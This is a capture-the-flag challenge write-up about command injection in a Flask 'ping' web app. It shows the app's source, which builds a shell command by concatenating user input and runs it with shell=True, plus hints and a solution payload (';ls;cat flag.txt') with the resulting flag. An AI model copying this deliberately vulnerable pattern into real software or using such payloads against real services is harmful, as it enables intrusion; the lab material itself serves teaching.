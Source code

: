 # Command Injection
Are you too lazy to ping websites? Then just use this convenient cloud service to ping sites for you!

url> `http://forever.isss.io:4223`


## Hints

- Based on the output or the source code, you might recognize that this webapp is running the command line utility `ping`. In the source code, you can see that the variable `command` is formed by directly concatenating user input with the ping command
- Thus, you can use different command line metacharacters to run other commands. For instance, you could exploit the `;` metacharacter by entering this: `google.com; echo hello`
- The flag is stored at /flag.txt. You just need to figure out how to read the file by injecting a command!


- app.py
```python
from flask import *
import subprocess
app = Flask(__name__)

@app.route('/', methods=['POST','GET'])
def index():
    if request.method == 'POST':
        url = request.form.get('url')
        if not url is None:
            command = 'ping -c 1 '+url
            p = subprocess.run(command, shell=True, capture_output=True)
            content = p.stdout.decode('ascii')
            return render_template('index.html', content=content)
    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0')

```

## Solucion

```
;ls;cat flag.txt
`Dockerfile README.md app.py docker-compose.yaml flag.txt requirements.txt static templates utflag{c0mmand_1nj3ct3d!}`
```